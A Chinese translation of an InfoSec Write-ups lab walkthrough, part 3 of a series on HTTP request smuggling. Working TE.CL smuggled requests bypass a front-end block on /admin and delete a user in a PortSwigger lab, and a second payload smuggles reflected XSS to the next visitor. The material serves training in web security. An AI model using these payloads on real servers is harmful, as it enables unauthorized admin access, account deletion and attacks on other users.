









# HTTP 请求走私解释和利用第 0x3 部分

> 原文：<https://infosecwriteups.com/http-request-smuggling-explained-and-exploited-part-0x3-b61623287603?source=collection_archive---------1----------------------->

嗨！我叫 Hashar Mujahid，今天我们将继续讨论什么是 HTTP 请求走私漏洞，以及我们如何利用它们。


来自 securitybot.io 的 Img

嗨，今天我们将讨论如何使用 HTTP 请求走私方法绕过前端安全措施。

如果你不知道什么是 HTTP 请求走私，我推荐你阅读我在这个系列的前 2 篇博客。

[](/http-request-smuggling-explained-and-exploited-part-0x1-89ce2956534f) [## HTTP 请求走私解释和利用第 0x1 部分

### 嗨！我的名字是 Hashar Mujahid，今天我们将先睹为快请求走私漏洞。

infosecwriteups.com](/http-request-smuggling-explained-and-exploited-part-0x1-89ce2956534f) [](/http-request-smuggling-explained-and-exploited-part-0x2-7768d04883fb) [## HTTP 请求走私解释和利用第 0x2 部分

### 嗨！我叫 Hashar Mujahid，今天我们将继续讨论什么是 HTTP 请求走私漏洞…

infosecwriteups.com](/http-request-smuggling-explained-and-exploited-part-0x2-7768d04883fb) 

现在我们将从我们停止的地方继续！

安全控制可以在应用程序的前端和后端实现。让我们考虑一个场景，应用程序的前端由于这个验证而阻止用户访问某些目录`/admin`。开发人员没有在后端进行任何验证，所以如果攻击者以某种方式绕过了前端安全性，后端会用对请求的响应来回应他。

```
POST /home HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 62 
Transfer-Encoding: chunked  0  
GET /admin HTTP/1.1 
Host: vulnerable-website.com 
Foo: xGET /home HTTP/1.1 
Host: vulnerable-website.com
```

前端服务器在这里看到两个请求，都是针对`/home`的，因此请求被转发到后端服务器。然而，后端服务器看到一个对`/home`的请求和一个对`/admin`的请求。它(像往常一样)假设请求已经通过了前端控件，因此授予对受限 URL 的访问权限。

在第 2 部分中，我们使用 CL 绕过了安全控制。TE 攻击。现在我们将使用 TE 绕过安全控制。CL 攻击。

## [实验室:利用 HTTP 请求走私绕过前端安全控制，TE。CL 漏洞:](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl)

本实验涉及前端和后端服务器，后端服务器不支持分块编码。在`/admin`有一个管理面板，但是前端服务器屏蔽了对它的访问。

为了解决这个问题，向访问管理面板并删除用户`carlos`的后端服务器发送一个请求。

**解决方案:**

在实验室描述中，明确表示前端支持`transfer encoding: chunked`但后端服务器不支持。所以进入实验室，把请求发送到打嗝中继器。



将请求方法更改为 POST 并删除不必要的头。



现在我们需要添加我们的传输编码头。另外，不要忘记添加尾随的新行。

我们可以看到我们得到了 200 ok 响应，现在我们只需要想出一种方法来请求`/admin`，由于安全控制，我们不能从前端访问它。

“确保在中继器中禁用更新内容长度”

下一步是在 POST 请求的主体中创建一个对/admin 的 Get 请求。

```
**60 ==> SIZE OF OUR CHUNKED DATA**
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15x=1
0
```



我们可以看到管理面板只对本地主机可用。为了避免这种情况，我们需要添加另一个值为

有效载荷:

```
71
POST /admin HTTP/1.1
HOST: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15x=1
0
```



现在我们只需要删除 Carlos 用户。



```
87 GET /admin/delete?username=carlos HTTP/1.1 
Host: localhost 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 15 x=1 
0
```

该有效负载将删除 Carlos 用户。

现在，让我们看看如何利用这个漏洞在受害者的浏览器中诱发 XSS。

## [利用 HTTP 请求走私送映 XSS](https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss)

本实验涉及前端和后端服务器，前端服务器不支持分块编码。

该应用还容易受到通过`User-Agent`报头[反射的 XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) 的影响。

为了解决这个实验，偷偷向后端服务器发送一个请求，使下一个用户的请求收到一个响应，该响应包含一个执行`alert(1)`的 XSS 漏洞。

解决方案:

我们可以看到前端服务器不支持分块编码，因此我们不必更新分块数据的大小。我们去实验室吧。

我们的博客中有一个查看博客功能，让我们访问查看博客链接，并将此请求发送到中继器。



我们可以看到我们的用户代理价值，让我们尝试诱导一个 self-xss，看看它是否可行。



只要它是自我 XSS 它的影响是非常低的让我们试着找到一种方法来反映它在受害者的浏览器。

现在点击主页，将这个请求发送给打嗝中继器。

*   更改请求方法
*   移除多余的标题
*   添加`Transfer-Encodind: chunked`
*   添加有效负载


现在，我们需要将之前的请求转移到我们发现 XSS 的地方。

```
0GET /post?postId=4 HTTP/1.1
Host: 0a1e00a504b50ac2c0a3b239009400f4.web-security-academy.net
User-Agent: ">
Content-Length: 5x=1
```

将上述有效载荷添加到我们的请求中。发送请求。当受害者访问它时，XSS 就会触发。



我们的实验室就解决了。

我们了解了如何将两个不同的漏洞联系起来，并提高我们发现的影响。

在下一篇博客中，我们将看到更多利用 HTTP 请求走私的技术。

在那之前，快乐的黑客❤！

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！